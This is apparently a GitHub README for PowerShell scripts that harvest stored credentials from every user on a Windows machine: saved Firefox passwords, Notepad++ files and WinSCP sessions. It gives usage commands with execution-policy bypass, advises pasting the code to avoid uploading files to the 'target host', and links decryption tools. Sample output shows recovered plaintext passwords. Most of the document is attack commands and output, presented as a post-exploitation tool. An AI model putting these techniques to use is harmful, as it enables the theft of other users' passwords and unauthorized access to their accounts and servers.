 A set of scripts to help gathering credentials from Windows devices, especially usefull if there are hundreds of users on the machine.

The scripts should be run as a **high privileged user** to gather as much information as possible.

---

# firefox_dump.ps1
This script will loop through all users under `C:\Users` and dump all saved credentials from Mozilla Firefox profiles. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
[-] 'Public' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'user' to: C:\Users\void\AppData\Local\Temp\user\firefox\ahf32hh2.default-release
[+] Dumping secrets from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\firefox\plhh3lmm.default-release
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'void' to: C:\Users\void\AppData\Local\Temp\void\firefox\plmxz1zm.default-release
```

If you don't want to upload files to the target host simply copy-paste the try-catch code from the script and run it as is in PowerShell.
Decrypt the information with  [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.
```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
---

# notepad_dump.ps1
This script will loop through all users under `C:\Users` and dump all roaming text files from Notepad++. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\notepad_dump.ps1
[-] 'Public' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'user' to: C:\Users\void\AppData\Local\Temp\user\notepad++
[+] Dumping Notepad++ data from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\notepad++
[-] 'user3' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'void' to: C:\Users\void\AppData\Local\Temp\void\notepad++
```

---

# winscp_dump.ps1
This script will loop through all users in the registry (HKLM) and dump all saved winscp sessions.
## Exampe Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\winscp_dump.ps1
[+] User: void - Session: root@127.0.0.1
  HostName: 127.0.0.1
  UserName: root
  EncPassword: A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF

[+] Saved all output to logfile: C:\Users\void\AppData\Local\Temp\winscp_dump.log
```

Decrypt the encrypted password with [`WinSCPDec.py`](https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd) or similar.
```bash
apt-kali :: ~ » python3 WinSCPDec.py --host=127.0.0.1 --user=root --pass=A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF
[+] Succes!
     ThisIsMySecretPasswd!"#1!"#
```
